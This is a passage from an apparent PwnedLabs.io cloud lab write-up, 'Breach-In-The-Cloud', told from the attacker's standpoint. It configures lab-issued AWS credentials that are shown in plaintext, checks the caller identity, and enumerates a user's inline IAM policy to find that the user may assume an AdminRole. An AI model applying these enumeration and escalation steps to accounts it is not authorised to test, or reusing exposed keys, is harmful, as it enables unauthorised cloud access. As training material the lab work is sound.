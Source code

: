
#### Reproducing it in Attacker standpoint&#x20;



The Lab provided us with set of credentials, we have configured it and sent a `getCallerIdentity`  reveals that these credentials belongs to a `temp-user`

```bash
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure
AWS Access Key ID [****************WZOD]: AKIARSCCN4A3WD4RO4P4
AWS Secret Access Key [****************q9e/]: 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
Default region name [us-east-1]:
Default output format [None]:
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws sts get-caller-identity
{
"UserId": "AIDARSCCN4A3X2YWZ37ZI",
"Account": "107513503799",
"Arn": "arn:aws:iam::107513503799:user/temp-user"
}
```

Enumerating iam inline policy reveals that the user `temp-user`  attached to the policy called `test-temp-user`  where as the policy have the permission to allow the user to assume as `AdminRole`&#x20;

```bash
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws iam list-user-policies --user-name temp-user
{
"PolicyNames": [
"test-temp-user"
]
}

nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws iam get-user-policy --user-name temp-user --policy-name test-temp-user
{
"UserName": "temp-user",
"PolicyName": "test-temp-user",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Resource": "arn:aws:iam::107513503799:role/AdminRole"
}
]
}
}
```
